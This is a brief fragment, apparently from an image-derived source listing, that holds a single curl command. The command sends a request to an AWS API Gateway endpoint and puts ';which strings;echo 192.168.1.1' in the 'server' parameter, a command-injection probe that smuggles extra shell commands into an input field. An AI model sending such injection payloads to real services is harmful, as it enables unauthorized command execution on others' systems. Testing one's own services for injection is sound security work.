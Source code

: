curl -G --data-urlencode "server=;which strings;echo 192.168.1.1" "https://n234dtjo39.execute-api.us-west-2.amazonaws.com/default/myFun2020_002"